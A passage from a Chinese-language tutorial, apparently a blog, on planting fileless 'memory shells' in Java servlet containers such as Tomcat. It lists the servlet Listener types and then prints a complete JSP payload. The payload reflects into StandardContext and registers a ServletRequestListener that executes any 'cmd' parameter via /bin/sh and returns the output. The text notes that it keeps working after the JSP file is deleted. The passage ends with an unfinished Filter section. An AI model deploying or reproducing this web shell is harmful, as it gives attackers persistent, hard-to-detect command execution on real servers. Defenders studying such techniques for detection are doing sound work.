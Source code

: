 Listener 是最先被加载的，所以可以利用动态注册恶意的 Listener 植入内存马。

-   Listener 分类
    -   ServletContext 监听，服务器启动和终止时触发
        -   ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
        -   ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
    -   Session 监听，Session 建立摧毁时触发
        -   javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
        -   javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听
    -   Request 监听，每次访问服务时触发
        -   ServletRequestListener：对 Request 请求进行监听（创建、销毁）
        -   ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）

如果能动态添加 Listener 那 Request 监听最适合植入内存马。

`ServletRequestListener` 提供两个方法：`requestInitialized` 和 `requestDestroyed`，两个方法均接收 `ServletRequestEvent` 作为参数，`ServletRequestEvent` 中又储存了 `ServletContext` 对象和 `ServletRequest` 对象，因此在访问请求过程中可以在 request 创建和销毁时实现自己的恶意代码，完成内存马的实现。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221719716.png-water_print](assets/1699410171-7f3dc7118370fa2ef9bae8d050aa7648.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221719716.png-water_print")

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>``` | ```java<br><%@ page import="org.apache.catalina.core.StandardContext" %><br><%@ page import="org.apache.catalina.core.ApplicationContext" %><br><%@ page import="java.lang.reflect.Field" %><br><%@ page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><br><%@ page import="org.apache.jasper.tagplugins.jstl.core.Out" %><br><%@ page import="java.io.IOException" %><br><%@ page import="javax.servlet.annotation.WebServlet" %><br><%@ page import="java.io.InputStreamReader" %><br><%@ page import="java.io.BufferedReader" %><br><%<br>     Object obj = request.getServletContext();<br>     Field field = obj.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     ApplicationContext applicationContext = (ApplicationContext) field.get(obj);<br>     field = applicationContext.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     StandardContext standardContext = (StandardContext) field.get(applicationContext);<br>     ListenH listenH = new ListenH(request, response);<br>    standardContext.addApplicationEventListener(listenH);<br>    out.print("test");<br>%><br><%!<br>    public class ListenH implements ServletRequestListener {<br>        public ServletResponse response;<br>        public ServletRequest request;<br><br>        ListenH(ServletRequest request, ServletResponse response) {<br>            this.request = request;<br>            this.response = response;<br>        }<br><br>        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {<br>        }<br><br>        public void requestInitialized(ServletRequestEvent servletRequestEvent) {<br>            String cmder = request.getParameter("cmd");<br>            String[] cmd = new String[]{"/bin/sh", "-c", cmder};<br>            try {<br>                Process ps = Runtime.getRuntime().exec(cmd);<br>                BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));<br>                StringBuffer sb = new StringBuffer();<br>                String line;<br>                while ((line = br.readLine()) != null) {<br>                    //执行结果加上回车<br>                    sb.append(line).append("<br>");<br>                }<br>                String result = sb.toString();<br>                this.response.getWriter().write(result);<br>            }catch (Exception e){<br>                System.out.println("error ");<br>            }<br><br>        }<br>    }<br>%><br>``` |

通过 jsp 尝试动态添加 Listener，这里需要注意，因为我们是直接通过 add 来添加，所以每次访问该 jsp 页面的时候都会重复添加 Listener，导致恶意 payload 重复执行。添加成功后访问任意存在的页面 `?cmd=` 要执行的命令即可，即使 jsp 文件被删除依然可以使用。

#### [](#323-filter-%E5%86%85%E5%AD%98%E9%A9%AC)3.2.3 Filter 内存马

Filter 被称之为过滤器，是 Java 中最常见也最实用的技术之一，通常被用来处理静态 web 资源、访问权限控制、记录日志等附加功能等等。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。

未完待续。。
